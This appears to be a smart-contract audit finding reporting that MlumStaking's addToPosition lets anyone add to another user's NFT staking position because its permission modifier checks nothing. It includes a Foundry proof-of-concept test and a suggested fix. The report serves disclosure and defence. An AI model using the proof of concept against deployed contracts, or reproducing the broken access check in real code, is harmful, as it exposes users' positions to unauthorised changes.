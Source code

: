 Thankful Quartz Deer

Medium

# Every user can execute the addToPosition method even if they don't have the nft

## Summary
`addToPosition(uint256 tokenId, uint256 amountToAdd) ` lack of control
## Vulnerability Detail
 the `addToPosition` method in the MlumStaking.sol file uses the `_requireOnlyOperatorOrOwnerOf` modifier to control permissions. The comment says "Can only be called by lsNFT's owner or operators," but `_requireOnlyOperatorOrOwnerOf `doesn't control any permissions.Every user can add position to the nft.
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L392-L401

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L140-L143
![image](https://github.com/sherlock-audit/2024-06-magicsea-one-pack-stomach-man/assets/17945882/835c7daf-cf38-4f01-9317-faed0ea4d1a1)

## Impact
`_requireOnlyOperatorOrOwnerOf` always returns true, causing permission control to fail.Users can add a position to an NFT even if they do not own it.

## Code Snippet
add the following function to `MlumStaking.t.sol` file.
```javascript
function testAddToPositionAssess() public {
        // alice and bob mint 2 ethers staking token
        uint MINT_AMOUNT = 2 ether;
        _stakingToken.mint(ALICE, MINT_AMOUNT);
        _stakingToken.mint(BOB, MINT_AMOUNT);

        // alice create position(1 ether) & mint a nft (tokenId = 1)
        uint START_POSITION_AMOUNT = 1 ether;
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), START_POSITION_AMOUNT);
        _pool.createPosition(START_POSITION_AMOUNT, 1 days);
        vm.stopPrank();

        skip(43200);

        MlumStaking.StakingPosition memory position;
        uint tokenId = 1;
        
        position = _pool.getStakingPosition(tokenId);

        // check the onwer of tokenid = 1 is alice
        assertEq(_pool.ownerOf(tokenId), ALICE);
        assertEq(position.amount, START_POSITION_AMOUNT);

        // bob can still add positon to the pool where tokenId = 1
        uint ADDED_POSITION_AMOUNT = 2 ether;
        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), ADDED_POSITION_AMOUNT);
        _pool.addToPosition(tokenId, 2 ether);
        vm.stopPrank();

        // check the position amount after bob add position to the pool where tokenId belongs to alice
        position = _pool.getStakingPosition(tokenId);
        assertEq(position.amount, START_POSITION_AMOUNT + ADDED_POSITION_AMOUNT);
    }
```
run `forge test --match-contract MlumStakingTest` command
## Tool used
foundry
Manual Review

## Recommendation
use `_requireOnlyApprovedOrOwnerOf` instead of `_requireOnlyOperatorOrOwnerOf`